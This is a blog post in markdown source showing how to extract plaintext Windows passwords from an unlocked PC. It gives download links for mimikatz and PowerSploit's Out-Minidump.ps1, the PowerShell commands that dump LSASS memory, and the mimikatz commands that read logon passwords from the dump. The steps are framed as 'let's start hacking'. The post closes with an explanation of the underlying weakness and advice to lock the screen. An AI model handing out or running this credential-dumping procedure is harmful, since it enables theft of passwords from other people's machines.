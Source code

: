 ```yaml
---
layout: post
title: Uncover user password on unlocked Windows PC less than 5 seconds
description: A simple how-to article demonstrating existing vulnerability that makes your Windows passwords are hackable.
tags: [Windows, Password, Vulnerability]
---
```


I found [this article](http://www.fixedbyvonnie.com/2015/02/hack-passwords-of-windows-in-5-minutes) mentioning about the existing vulnerability in Windows OS where you can get the plaintext view of your passwords on any unlocked computer. So, I tried it on my Windows 10 PC and found that the vulnerability is still exist. The method used here is not new at all, and anyone can perform this hacking on any unlocked Windows PC providing that they know how to use the following tools.



### Tools you need

- [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest) - just get the binary package, e.g. `mimikatz_trunk.zip`
- [Out-Minidump.ps1](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1) - PowerShell script

Download all the tools above and let's start hacking!



### 1. Perform memory dump using the PowerShell script

To perform the [LSASS](https://technet.microsoft.com/en-us/library/cc961760.aspx) dump, I will use the PowerShell script - `Out-Minidump.ps1`. The flow of cmdlet will look like this:

{% include figure.html src="assets/images/1lQnyhZ.png" caption="PowerShell cmdlet" %}

```powershell
. 'G:\USERFILES\Desktop\PowerShell Playground\Out-Minidump.ps1'
# "dot sourcing" method to import function from the script

Get-Process lsass | Out-Minidump
# To perform the LSASS dump

Copy-Item .\lsass_868.dmp 'G:\USERFILES\Desktop\PowerShell Playground'
# Copy the dump file to desired location
```

### 2. View the passwords using the mimikatz terminal program

As you can see, `lsass_868.dmp` is the example of LSASS dump file captured using the PowerShell script. Now, it's time I need to use the mimikatz terminal to load in the dump file as follows:

```
sekurlsa::minidump "G:\USERFILES\Desktop\PowerShell Playground\lsass_868.dmp"
```

{% include figure.html src="assets/images/OPA0g0w.png" caption="mimikatz MINIDUMP" %}

Switching to MINIDUMP file, so now I can view the passwords. Now, I will run this command to display all the accounts and passwords available:

```
sekurlsa::logonPasswords full
```

Voila! There, I can see my actual Microsoft Account username and password in _a plaintext view_.

{% include figure.html src="assets/images/nWPZUIR.jpg" caption="mimikatz logonPasswords" %}



### Explanation of the vulnerability

The fact is that the password is encrypted but it's _useless_ as the implementation depends on two basic Win32 functions; [LsaProtectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714509%28v=vs.85%29.aspx) (the encryption function) and [LsaUnprotectMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ff714510(v=vs.85).aspx) (the decryption function). So, the Windows stores these encrypted user passwords in memory without using any of one-way hash algorithm which is decryptable using **LsaUnprotectMemory** function to a plain text.

**It is RECOMMENDED to always LOCK your Windows PC when you are away, especially when you are in office or public place. This hacking can simply be done less than five minutes!**